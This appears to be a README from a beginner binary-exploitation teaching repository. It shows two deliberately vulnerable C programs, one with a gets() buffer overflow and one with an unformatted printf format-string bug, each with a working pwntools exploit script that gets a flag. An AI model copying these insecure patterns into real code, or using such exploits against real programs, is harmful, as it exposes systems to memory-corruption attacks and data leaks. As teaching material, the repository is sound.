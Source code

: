 ### Easy Category :> Binary Exploitation
- This category contains simple programs i have written to demonstrate basic techniques in binary explotation .
- It covers the main topics but with most security features turned off.  Enjoy :D

#### bof
- This are the files <a href="./bof">here</a>
``` 
#include <stdio.h>

int main() {
    int check = 0;
    char input[40];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to udsm-coict! ");
    gets(input);

    if (check == 0xdeadbeed) {
        puts("Congrats, here's a flag!\n");
        system("/bin/cat flag.txt\n");
    }
}
```
- We are expected to overflow the variable input to a point where we overright the variable check with the right characters to pass the if condition .
```
#!/usr/bin/python3
from pwn import *

class con:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr", "port")
                return p
def exploit():
        p = con.local()
        print(p.recvline())
        offset = 40
        addr = p32(0xdeadbeed)
        payload = b"A"*offset + addr 
        p.sendline(payload)
        print(p.recvall())
if __name__ == "__main__":
        exploit()
```
- First i find the offset where our input starts to overright the variable check . i get its 40 then what follows is the word i want to overflow...Taking into account the little endiannes concept.
``` We can also do this with the struct module of python..
this would be this following exploit :
python3 -c"import struct;print(b'A'*40 + struct.pack('<I',0xdeadbeed))" > exploit1
cat exploit1 | ./pwn
wiiiih :)
```
#### format string
- This are the files <a href="./string_format">here</a>
```
➜  string_format git:(master) ✗ cat pwn.c
#include <stdio.h>

void buffer_init() {
        setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
}

int main() {
        char name[32];
        char flag[64];
        char *flag_ptr = flag;

        buffer_init();
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL) {
                printf("Please, create 'flag.txt' for debugging.\n");
                exit(0);
        }

        fgets(flag,sizeof(flag),file);

        while(1) {
                printf("What is your name?\n");
                fgets(name,sizeof(name),stdin);
                printf("\nHello there, ");
                printf(name);
                printf("\n");
        }
        return 0;
}
```
The bug is at the printf function where the function is not given a format in which it should print the contents of name variable.To mean a format specifier is not provided xD.
```
#!/usr/bin/python3

from pwn import *

class conn:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr",port)
                return p

def exploit():
        p = conn.local()
        print(p.recvline())
        payload = b"%p"*16
        p.sendline(payload)
        flag = str(p.recvuntil(b"What is")).replace("(nil)",'')
        flag = flag.replace("\\n",'')
        flag = flag.replace("'",'')
        flag = flag.replace("What is",'')
        print(flag)
        print("Wiiihiiiiihihihih :)")
        decoded_flag = []
        for element in flag.split("0x")[1:]:
            decoded_flag.append(str(p32(int("0x" + element,16))))
        decoded_flag = ''.join(decoded_flag)
        print(decoded_flag.replace("'b'",''))
        p.close()

if __name__ == "__main__":
        exploit()
```
Happy hacking :D
wiiih  :)
